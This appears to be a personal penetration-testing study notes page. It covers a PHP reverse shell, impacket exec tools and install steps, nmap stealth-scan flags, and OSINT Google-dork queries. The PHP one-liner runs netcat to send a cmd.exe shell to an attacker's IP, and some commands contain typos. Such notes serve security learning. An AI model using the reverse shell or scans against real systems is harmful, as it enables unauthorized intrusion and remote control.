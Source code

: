 ### Exploiting PHP
This is a basic reverse shell written in php 
```
<?php
system('nc.exe -e cmd.exe $yourip 4444')
?>
```
### Exploiting with exec tools
- psexpec.py
- smbexec.py
- wmiexec.py

### Exploiting with Shells
Spawning a TTY Shell - https://netsec.ws/?p=337

### impacket
https://github.com/SecureAuthCorp/impacket.git
```
cd /opt/
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket-0.9.19/
pip3 install.
```
> [!NOTE]
> The version number may change under the git clone line



### netcat and nmap
[Kioptrix Download](https://tcm-sec.com/kioptrix)

Nmap
```
arp-scan
```
SYN SYNACK ACK nmap
Stealth scanning
SYN SYNACK ACK nmap -sS
SYN SYNACK RST nmap -sS

```
nmap -T4 -P- -A
```
### OSINT & Recon Resources | Intelligence Lifecycle
![image](https://github.com/user-attachments/assets/f3dcb343-e338-470e-ae98-d0b64fb11196)
https://blog.reknowledge.tech/blog/osnt-analyst-replaced-by-automation
PLANNING & DIRECTION >> COLLECTION >> PROCESSING AND EXPLOITATION >> ANALYSIS AND PRODUCTION >> DISSEMINATON AND INTEGRATION

### OSINT & Recon Resources | Google Fu
* Google, lmgtfy,
* site:<domain>
* site:tesla.com -www
* filetype:csv
